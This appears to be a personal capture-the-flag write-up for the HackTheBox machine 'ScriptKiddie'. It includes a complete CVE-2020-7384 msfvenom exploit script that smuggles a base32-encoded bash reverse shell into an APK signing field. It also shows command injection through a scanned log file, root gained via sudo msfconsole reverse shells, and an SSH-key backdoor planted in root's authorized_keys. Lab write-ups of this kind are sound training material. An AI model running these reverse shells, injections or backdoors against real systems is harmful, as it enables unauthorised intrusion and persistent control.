






# 00 - Loot

Credentials:

| Service | Username | Password | Found at |
| ------- | -------- | -------- | -------- |
|         |          |          |          |
|         |          |          |          |
|         |          |          |          |

Valid Usernames

```

```

Emails

```

```

...

# 10 - Reconnaissance

## Port scanning - Nmap

### TCP

Full scan.

```shell
→ root@kali «scriptkiddie» «10.10.14.31» 
$ nmap -p- --min-rate 1000 --reason -oA nmap/10-tcp-allport 10.10.10.226 
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-13 20:42 EDT
Nmap scan report for 10.10.10.226
Host is up, received echo-reply ttl 63 (0.065s latency).
Not shown: 65533 closed ports
Reason: 65533 resets
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63

Nmap done: 1 IP address (1 host up) scanned in 45.79 seconds
```

Default script scan

```shell
→ root@kali «scriptkiddie» «10.10.14.31» 
$ nmap -p22,5000 -sC -sV -oA nmap/10-tcp-allport-script 10.10.10.226
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-13 20:44 EDT
Nmap scan report for 10.10.10.226
Host is up (0.056s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.66 seconds
```


# 15 - Enumeration

## TCP 80 - Website




The `nmap` tool can be used against itself:



It seems it only accepts the 

## Tools Vulnerability



# 20 - Foothold

### Mfvenom CVE-2020-7384

```python
#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b32encode

# Change me
payload = 'bash -c "bash -i >& /dev/tcp/10.10.14.31/9000 0>&1"'

# b32encode to avoid badchars (keytool is picky)
# thanks to @fdellwing for noticing that base64 can sometimes break keytool
# <https://github.com/justinsteven/advisories/issues/2>
payload_b32 = b32encode(payload.encode()).decode()
dname = f"CN='|echo {payload_b32} | base32 -d | sh #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

tmpdir = "./"
apk_file = os.path.join(tmpdir, "evil.apk")
empty_file = os.path.join(tmpdir, "empty")
keystore_file = os.path.join(tmpdir, "signing.keystore")
storepass = keypass = "password"
key_alias = "signing.key"
open(empty_file, "w").close()
subprocess.check_call(["zip", "-j", apk_file, empty_file])

subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])
print()
print(f"[+] Done! apkfile is at {apk_file}")
print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null")
```

Generating malicious APK template.

```shell
→ root@kali «exploits» «10.10.14.31»
$ python3 exploit_msfvenom.py
[+] Manufacturing evil apkfile
Payload: bash -c "bash -i >& /dev/tcp/10.10.14.31/9000 0>&1"
-dname: CN='|echo MJQXG2BAFVRSAITCMFZWQIBNNEQD4JRAF5SGK5RPORRXALZRGAXDCMBOGE2C4MZRF44TAMBQEAYD4JRREI====== | base32 -d | sh #

  adding: empty (stored 0%)
jar signed.

Warning:
The signer's certificate is self-signed.

[+] Done! apkfile is at ./evil.apk
Do: msfvenom -x ./evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

### Reverse Shell - kid



### Shell upgrade

```
→ root@kali «exploits» «10.10.14.31» 
$ nc -nvlp 9000
listening on [any] 9000 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.226] 34230
bash: cannot set terminal process group (897): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$ id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
kid@scriptkiddie:~/html$ export TERM=xterm
export TERM=xterm
kid@scriptkiddie:~/html$ which python
which python
kid@scriptkiddie:~/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
kid@scriptkiddie:~/html$ ^Z
[1]  + 10652 suspended  nc -nvlp 9000
→ root@kali «exploits» «10.10.14.31» 
$ stty raw -echo; fg
[1]  + 10652 continued  nc -nvlp 9000

kid@scriptkiddie:~/html$ 
```


# 25 - Privilege Escalation

## Internal enumeration

```shell
kid@scriptkiddie:~/html$ cd ~
kid@scriptkiddie:~$ ls -la
total 60
...<SNIP>...
-rw-r--r--  1 kid  kid   807 Feb 25  2020 .profile
drwx------  2 kid  kid  4096 Feb 10 16:11 .ssh
-rw-r--r--  1 kid  kid     0 Jan  5 11:10 .sudo_as_admin_successful
drwxrwxr-x  5 kid  kid  4096 Feb  3 11:03 html
drwxrwxrwx  2 kid  kid  4096 Feb  3 07:40 logs
drwxr-xr-x  3 kid  kid  4096 Feb  3 11:48 snap
-r--------  1 kid  kid    33 Jun 12 11:35 user.txt
```

Empty logs

```shell
kid@scriptkiddie:~/logs$ ls -la
total 8
drwxrwxrwx  2 kid kid 4096 Feb  3 07:40 .
drwxr-xr-x 11 kid kid 4096 Feb  3 11:49 ..
-rw-rw-r--  1 kid pwn    0 Jun 14 01:40 hackers
```

Users

```shell
kid@scriptkiddie:~$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
kid:x:1000:1000:kid:/home/kid:/bin/bash
pwn:x:1001:1001::/home/pwn:/bin/bash
kid@scriptkiddie:~$ ls /home
kid  pwn
```

Files owned by pwn

```shell
kid@scriptkiddie:~$ find / -type f -user pwn 2>/dev/null
/home/pwn/.bash_logout
/home/pwn/.selected_editor
/home/pwn/.bashrc
/home/pwn/.profile
/home/pwn/scanlosers.sh
kid@scriptkiddie:~$ ls -l /home/pwn/scanlosers.sh
-rwxrwxr-- 1 pwn pwn 250 Jan 28 17:57 /home/pwn/scanlosers.sh
```


```shell
kid@scriptkiddie:~$ cat /home/pwn/scanlosers.sh
#!/bin/bash

# <== Define log
log=/home/kid/logs/hackers 

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done
# <== The log is cleared immediately
if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

## Exploiting scanlosers.sh

```
→ root@kali «exploits» «10.10.14.31»
$ echo "[2021-06-14 00:28:09.560444] 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.30/9000 0>&1';" | cut -d' ' -f3- | sort -u
127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.30/9000 0>&1';
```

```
kid@scriptkiddie:~/logs$ while sleep 0.1; do echo "[2021-06-14 00:28:09.560444] 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.31/9001 0>&1';" > hackers; done
```



## Sudo privileges


```
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

```
pwn@scriptkiddie:~$ sudo msfconsole -q -x 'bash -c "bash -i >& /dev/tcp/10.10.14.31/9005 0>&1"'
```

```
→ root@kali «scriptkiddie» «10.10.14.31» 
$ rlwrap nc -nvlp 9005
listening on [any] 9005 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.226] 43512
bash: cannot set terminal process group (868): Inappropriate ioctl for device
bash: no job control in this shell
root@scriptkiddie:/home/pwn# id
id
uid=0(root) gid=0(root) groups=0(root)
root@scriptkiddie:/home/pwn# cut -c-15 /root/root.txt
cut -c-15 /root/root.txt
bf7edd4c58e4420
```




# 30 - Post-Exploit

Backdoor on Motd

```
root@scriptkiddie:/etc/update-motd.d# mkdir -p /root/.ssh/ 2>/dev/null && echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPmWTx2r3W2mHnCnKmoJCnkrj6mXxSIGq3E5ks1g+moK' > /root/.ssh/authorized_keys' 2>/dev/null
```


# 90 - Summary

Foothold: 

- CVE-2020-7384

Privilege Escalation:

- Inject `hackers` file with stacked reverse shell command
- Sudo privileges on msfconsole 

# 99 - Trial-error/Try list

> What to put here:
>
> - Options you want to try (upper=highest priority, lower=try later)
> - Track things you have tried but failed.
> - Tips/Trick you learned during completing the box.
> - Take a rest if you keep putting/looking your note in here for more than 45 minutes.

